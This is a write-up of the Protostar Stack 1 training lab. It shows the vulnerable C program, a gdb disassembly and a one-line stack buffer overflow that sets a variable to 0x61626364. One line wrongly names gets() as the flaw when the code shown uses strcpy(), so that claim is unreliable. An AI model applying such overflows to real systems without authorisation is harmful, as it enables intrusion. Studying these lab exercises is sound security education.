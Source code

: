 # PROTOSTAR : STACK 1
[Protostar:Stack1](https://exploit.education/protostar/stack-one/)

### SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

Same as the previous level we are going to exploit the **gets()**
function since it is vulnerable to Buffer Overflow attacks. After overflowing we need to pass the value keeping **LITTLE ENDIAN** in mind.

### **SOLUTION**

Below is the disassembly of **main()**
```
user@protostar:/opt/protostar/bin$ gdb -q stack1
Reading symbols from /opt/protostar/bin/stack1...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave  
0x080484d6 <main+114>:  ret    
End of assembler dump.
(gdb) 
```

1. At **0x0804846d** there is a comparison of ebp+0x8 with 1. This line is checking if the user has suppied any command line arguments or not.

2. At **0x080484ab** there is another comparison, checks whether the value of eax is equal to 0x61626364.
    - If true prints "**you have correctly got the variable to the right value\n**"

    - If false eip goes to **0x80484c0** and prints "**Try again, you got 0x%08x\n", modified**"

Set up a breakpoint at **0x080484a7** and Passing input.
We can see the program overflows the **modified** variable and changes it to **0x41** but we need **0x61626364**. Lets write a python script.
```
(gdb) b *0x080484a7
Breakpoint 1 at 0x80484a7: file stack1/stack1.c, line 18.
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Starting program: /opt/protostar/bin/stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=2, argv=0xbffff804) at stack1/stack1.c:18
18      stack1/stack1.c: No such file or directory.
        in stack1/stack1.c
(gdb) c
Continuing.
Try again, you got 0x00000041

Program exited with code 036.
(gdb) 
```

### **PYTHON SCRIPT**
```
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A'*64 + 'dcba'")
you have correctly got the variable to the right value
user@protostar:/opt/protostar/bin$ 
```
We correctly changed the value of **modified** variable and keep in mind to pass the value in **LITTLE ENDIAN**. The string "dcba" will be stored in reverse in little endian and in hex values.
